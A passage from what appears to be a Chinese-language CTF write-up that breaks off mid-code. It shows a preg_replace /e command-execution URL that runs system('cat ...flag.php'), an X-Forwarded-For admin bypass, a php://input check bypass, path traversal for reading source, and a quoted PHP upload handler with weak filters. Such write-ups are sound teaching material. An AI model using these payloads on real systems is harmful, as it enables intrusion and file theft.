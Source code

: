 设置XFF为127.0.0.1可以进入管理功能

preg_replace命令执行

```
http://47.104.74.209:20005/index.php?pat=/test/e&rep=system%28%27cat%20./s3chahahaDir/flag/flag.php%27%29;&sub=justtest
```

### 云平台客服中心

给了提示swp，d师傅直接丢给我.index.php.swp、.index.php.swo、.index.php.swn，直接恢复之，拿到index.php源码，部分源码如下：

```php
function download($adfile, $file){
  //Only Administrators can download files .
      $cert = 'N';
    if(isset($adfile) && file_get_contents($adfile, 'r') === 'Yeah Everything Will Be Ok My Boss') {
      echo "Welcome ! You Are Administrator !";
      $cert = 'Y';
    }else{
    ......
}

if (isset($_GET[admin]) && isset($_GET[file])) {

  if (stripos($_GET[admin], 'flag') > 0 || stripos($_GET[file], 'flag') > 0) {
    die('not flag flag flag falg !');
  }

  ......

  download($_GET[admin], $_GET[file]);

?>
```

即传入admin=php://input，post数据 "Yeah Everything Will Be Ok My Boss"，
file=file_list/../includes/upload.php 读取upload源码，如下

```php
<?php

if (!empty($_FILES)) { //properties of the uploaded file 

	$name= $_FILES["filename"]["name"]; 
	$type= $_FILES["filename"]["type"]; 
	$size= $_FILES["filename"]["size"]; 
	$temp= $_FILES["filename"]["tmp_name"]; 
	$error= $_FILES["filename"]["error"]; 
	if (strlen($name) >= 6) { die('name is too long !'); } 
	
	if (stripos($name, './') > 0) { die('invalid parameter'); } 

	if (stripos($name, 'php') > 0) { die('invalid parameter'); } 

	if (substr($name, -3, 3) !== 'zip' && substr($name, -3, 3) !== 'jpg' && substr($name, -3, 3) !== 'png') { die('file can not upload ! '); } 

	if ($error > 0) die("Error uploading file! code $error."); 
	else { 
		if($type !== "application/zip" || $size > 400)//condition for the file 
		{ 
			die("Format not allowed or file size too big!"); 
		} 
		else 
```